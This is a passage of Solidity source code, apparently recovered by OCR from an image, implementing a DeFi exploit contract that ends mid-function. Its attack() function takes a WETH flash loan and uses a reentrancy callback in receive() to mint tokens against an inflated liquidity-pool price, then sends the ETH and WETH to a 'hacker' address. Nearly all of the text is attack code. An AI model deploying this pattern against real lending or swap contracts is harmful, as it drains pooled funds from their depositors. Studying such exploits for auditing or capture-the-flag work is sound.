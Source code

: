 ```solidity

	function attack() external {

		{ // 1. buy 10 eth lp
			weth.approve(address(wethLendingPool), type(uint).max);
			weth.approve(address(swapPoolEthWeth), type(uint).max);

			uint v0 = 5 ether;
			uint v1 = 5 ether;

			weth.deposit{value: v1}(); // eth -> weth
		
			uint[2] memory amounts;
			amounts[0] = v0;
			amounts[1] = v1;
			uint lp = swapPoolEthWeth.add_liquidity{value: v0}(amounts, 0);
		}


		{ // flashloan
			uint borrow = 1046_982343863283000000;
			wethLendingPool.flashLoan(
				IERC3156FlashBorrower(this), address(weth), borrow, "");
		}
		// transfer eth/weth back to hacker
		{
			payable(hacker).call{value: address(this).balance}("");
			weth.transfer(hacker, weth.balanceOf(address(this)));
		}
	}

	bool flagHandleReceive;
	receive() external payable {
		if (!flagHandleReceive ) {
			return;
		}
		flagHandleReceive = false;
 

		{ // here, lp price is very high, so we can buy more metaToken

			uint lp = lpToken.balanceOf(address(this));

			lpToken.approve(address(metaToken), type(uint).max);
			metaToken.mint(lp);
		}
	}

	function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data) external returns (bytes32) {

		{ // buy some lp, then sell it to break the balance and trigger the `receive()` callback

			uint half = amount/2;

			weth.withdraw(half);

			uint[2] memory amounts;
			amounts[0] = half;
			amounts[1] = half;
			uint lp = swapPoolEthWeth.add_liquidity{value: half}(amounts, 0);

			amounts[0] = 0;
```